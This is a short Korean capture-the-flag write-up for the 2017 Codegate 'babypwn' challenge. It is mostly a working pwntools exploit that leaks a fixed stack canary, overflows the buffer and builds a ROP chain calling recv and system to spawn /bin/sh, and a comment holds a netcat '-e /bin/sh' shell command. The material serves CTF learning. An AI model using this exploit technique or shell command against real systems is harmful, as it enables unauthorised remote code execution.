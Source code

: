 ```yaml
---
title: "2017 Codegate babypwn"
date: 2019-11-4
tags: [Codegate]
categories: [Codegate]
---
```


Reverse Shell을 열어서 풀면 된다.

canary leak해주면 되는데 이 바이너리를 보면 fork되어 있는 것을 알 수 있다. 그래서 canary값은 고정이다.

nc 접속해서 ret 전까지 카나리 값 맞춰주면서 덮어주고 recv함수 이용해서 bss영역에 /bin/sh (리버스쉘) 넣은 다음에 system함수로 실행시키면 된다.

> 1. Canary Leak
>
> 2. bof -> rop
>
> 3. rop chain -> recv(4,bss,/bin/sh,0)
>
> 4. system(bss)

```python
# -*-coding:utf-8-*- 
from pwn import *
 
e = ELF('./babypwn')
p = remote('localhost',8181)
r = ROP(e)
cmd = '/bin/sh'
# cmd = nc -lvp localhost 1234 -e /bin/sh
 
# canary leak
p.sendlineafter('> ','1')
p.sendlineafter(': ','A'*40)
p.recv(41)
canary = u32('\x00'+p.recv(3))
log.info('Canary : ' + hex(canary)) # canary 주소는 고정 fork 사용해서
 
p.close()

# solve
p = remote('localhost',8181)
bss = e.bss()

p.sendlineafter('> ','1')
 
# dummy(52) + sfp(4) + ret
pay = 'A'*40
pay += p32(canary)
pay += 'A'*12
r.recv(4,bss,len(cmd)+2,0)
r.system(bss)
pay += r.chain()
 
p.sendafter(': ',pay)
 
p.recvuntil('> ')
p.sendline('3')
sleep(0.3)
p.sendline(cmd)
 
p.interactive()
```


